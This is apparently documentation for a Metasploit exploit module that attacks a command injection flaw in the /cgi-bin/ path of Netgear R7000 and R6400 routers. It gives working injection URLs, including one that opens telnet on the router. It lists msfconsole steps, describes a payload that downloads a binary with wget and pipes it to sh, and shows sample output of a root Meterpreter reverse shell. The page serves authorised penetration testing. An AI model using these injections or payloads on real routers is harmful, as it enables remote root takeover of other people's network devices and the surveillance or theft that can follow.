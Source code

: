 The netgear_r7000_cgibin_exec module exploits a command injection vulnerability in Netgear R7000 and R6400 router firmware version `1.0.7.2_1.1.93` and possibly earlier. The vulnerability is found in the `/cgi-bin/` folder of the router. A manual injection would look like so: `http://<RouterIP>/cgi-bin/;echo$IFS"cowsay"`. This will echo 'cowsay' on the router. A fairly useful manual command injection is like so: `http://<RouterIP>/cgi-bin/;telnetd$IFS-p$IFS'45'` will open telnet on port 45.


## Vulnerable Application

Netgear R7000 and R6400 routers running firmware version `1.0.7.2_1.1.93` and possibly earlier.

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/http/netgear_r7000_cgibin_exec`
  3. Do: `set RHOST <RouterIP>`
  4. Do: `set PAYLOAD <payload>`
  5. Do: `run`
  6. If the router is a R7000 or R6400, you should get a session

## Options

  **PAYLOAD**
  
  The valid payloads are `mettle` payloads _only_. The payload uses the `wget` flavor and pipes the downloaded binary to `sh`

## Scenarios

  Sample output of a successful session:
  
  ```
  msf exploit(netgear_r7000_cgibin_exec) > run

[*] Started reverse TCP handler on 127.0.0.1:4444 
[*] Router is a NETGEAR router (R7000)
[+] Router may be vulnerable (NETGEAR R7000)
[*] Using URL: http://0.0.0.0:8080/
[*] Local IP: http://[redacted]:8080/
[*] Meterpreter session 1 opened (127.0.0.1:4444 -> 127.0.0.1:54168) at 2017-03-10 15:56:21 -0600
[*] Server stopped.

meterpreter > getuid 
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo 
Computer     : 192.168.1.4
OS           :  (Linux 2.6.36.4brcmarm+)
Architecture : armv7l
Meterpreter  : armle/linux
meterpreter > 
  ```
  
  As you can see, the `uid` is 0, meaning you have root access.
  
  

